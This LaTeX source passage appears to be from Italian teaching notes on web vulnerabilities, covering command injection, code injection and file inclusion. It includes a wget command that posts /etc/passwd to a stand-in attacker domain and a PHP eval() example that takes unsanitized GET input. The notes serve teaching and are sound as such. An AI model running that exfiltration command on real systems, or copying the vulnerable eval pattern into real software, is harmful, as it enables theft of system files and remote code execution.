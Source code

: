 \documentclass{article}
\begin{document}
Nei primi due casi, il sito web potrebbe essere vulnerabile ma a causa dei payload inseriti non si riesce ad aggirare le misure di sicurezza.\\
Nel terzo caso, il rumore causato dal tool potrebbe terminare un'attività di \textbf{red teaming}.

Nel caso in cui non si riesca ad aprire una \textbf{reverse shell}, è comunque possibile esfiltrare file dal web server utilizzando il \verb|wget|. Ad esempio, un payload che invia file \verb|/etc/passwd| al dominio dell'attaccante:
\begin{verbatim}
	wget --post-file /etc/passwd http://dominio.attaccante
\end{verbatim}  
\newpage

\subsection{Code Injection}
Le \textbf{Code Injection} sfruttano funzioni che eseguono il codice che viene loro passato in input.
Ad esempio, se un attaccante attacca un'applicazione PHP che contiene un istruzione \verb|eval()| (o \verb|evaluate| o \verb|assert|), potrà inserire codice PHP per sfruttare eventuali vulnerabilità.

Quindi la \textbf{Code Injection} dipende dal linguaggio utilizzato dal sito web.

\subsubsection{Esempio di Code Injection}
Prendendo ad esempio il codice di \verb|victim.size/add.php|:
\begin{verbatim}
	eval(“echo 5+”.$_GET[‘number’].“;”);
\end{verbatim}

In questo caso la funzione \verb|eval()| prende in input un numero dal parametro GET “number”, somma 5 ad esso e lo stampa a schermo.

Questa pagina è vulnerabile a Code Injection in quanto non presenta alcun tipo di \textbf{sanitizzazione} e che permetterebbe di inserire qualsiasi codice che verrebbe \textbf{eseguito} e stampato sulla pagina del sito web.

\subsection{File Inclusion}
Similmente alla Path Traversal, la \textbf{File Inclusion} è una vulnerabilità che permette di \textbf{includere file} all'interno del \textbf{file-system} del web server tramite la pagina web vulnerabile.\\
Questa vulnerabilità si verifica a causa di alcune \textbf{funzioni} che permettono alla pagina web di includere il contenuto di un file all'interno della pagina stessa e di \textbf{eseguire il codice stesso}.
\end{document}
